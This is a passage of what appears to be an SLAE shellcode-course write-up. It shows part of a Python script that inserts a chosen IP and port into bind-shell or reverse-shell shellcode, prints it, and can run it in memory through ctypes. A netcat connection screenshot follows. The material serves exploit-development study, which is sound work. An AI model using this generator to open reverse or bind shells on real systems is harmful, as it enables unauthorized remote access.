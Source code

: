 ```python
except AddressValueError:
    print("Invalid IP address")

# Change port number if the port argument is set and valid
if args.port and args.port > 0 and args.port <= 65535:
    port = args.port

# Format the port 
port = "{0:0{1}x}".format(port,4)
port = "\\x" + port[:2] + "\\x" + port[2:]

# Set ip / port where necessary
shellcode_str = ""
if args.type == "bind_tcp":
    shellcode_str = shellcodes[args.type].format(port)
elif args.type == "reverse_tcp":
    shellcode_str = shellcodes[args.type].format(ip,port)

# Print the shellcode and his size
shellcode_bytes = bytes.fromhex(shellcode_str.replace('\\x',''))
print("Shellcode size : {}".format(len(shellcode_bytes)))
print('"{}"'.format(shellcode_str))

# If arg exec is set, execute the shellcode
if args.exec :
    libc = CDLL("libc.so.6")

    c_shell_p = c_char_p(shellcode_bytes)

    launch = cast(c_shell_p, CFUNCTYPE(c_char_p))

    launch()
```

Then we can launch the script to set a new ip address / new port and/or execute directly the shellcode :

![netcat-connection](/assets/images/slae/reverse_tcp.png)
